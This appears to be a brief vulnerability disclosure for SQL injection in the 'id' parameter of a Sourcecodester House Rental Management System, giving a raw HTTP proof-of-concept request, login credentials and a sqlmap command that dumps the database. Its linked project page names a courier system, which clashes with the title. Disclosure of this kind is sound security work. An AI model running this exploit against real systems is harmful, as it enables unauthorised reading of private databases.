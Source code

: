 ### SQL injection vulnerability exists in Sourcecodester House Rental Management System

official website:https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

version:v1.0

route:/index.php?page=manage_user&id=1

related code file:manage_user.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the manage_user.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240523213326292](SourceCodester_House_Rental_Management_System_Sql_Inject-1.assets/image-20240523213326292.png)

#### 2.Vulnerability verification and exploit

After mayuri.infospace@gmail.com/rootadmin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
GET /index.php?page=manage_user&id=1 HTTP/1.1
Host: 10.15.6.184:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ob0bdimnlspngt0ldq4p4s4ed0
Connection: close


```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240523214812964](SourceCodester_House_Rental_Management_System_Sql_Inject-1.assets/image-20240523214812964.png)
